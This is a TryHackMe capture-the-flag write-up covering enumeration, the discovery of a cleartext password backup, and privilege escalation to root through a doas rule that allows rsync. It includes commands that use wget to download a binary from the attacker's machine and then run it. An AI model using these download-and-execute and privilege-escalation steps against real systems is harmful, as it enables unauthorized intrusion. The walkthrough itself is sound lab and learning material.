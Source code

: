 ### Enumeration and getting user
At this point  we have the www-data user, which is only god for enumerating the machine. I fired up a local webserver on my machine with `python3 -m http.server` and then used wget to get linpeas.sh 

The script did not  reveal much so I went back to the THM room page and noticed a Hint. It told me that there might be some useful backup files. 

People are simple so the files are likely to be named either something with backup or .bck or .bak

I opted for "backup" but realized that the find command was limited so I could not run it. Luckily I could easily start my local python webserver again and get the *find* binary from my atacker machine. 
```
wget <my ip>:8000/find
chmod +x find
./find / -name "*backup*" 2>/dev/null
```

It found a folder names /backups/ in a location that would not normally be used for backups. 
Checking the folder I see that only one file is readable (a hidden file) and did a quick `cat file`. It turns out it was the passwd file but with the users password in cleartext.

Using `su user` and the password I found and I got escalated to the real user account and the user.txt flag.

### Escalating priviledges

This time I did read the hint to beging with. It told me to look for an alternative to sudo. Being a long-time user of Linux and BSD made me thing of the `doas` command right away. 

Like with sudo there is a config file (usually /etc/doas.conf) that controls everything, but in this case it was not there. OK next best place for this is the user etc in /usr/local/etc/ and here it was.

The config file told me that I could run rsync command as root without a password, so going to https://gtfobins.github.io/gtfobins/rsync/#shell gave me a quick way to get a shell - this time as root. 

From here it is the usual `cat /root/root.txt` and the root flag and final answer needed for the room was found. 

### After thoughts

The Room was interesting as not many touch on the use of http headers during attack phase. This made this room a good room to learn from. After the actual foothold was in place, the rest was pretty simple. 

The thing delaying me the most was the fact that I did not read the hint for the userflag at first. I would eventually have found the backup files but it just took longer as I did all sorts of other enumerations of the box first. 

The priviledges escalation to root was, in my opinion too easy. 

Good room overall. 






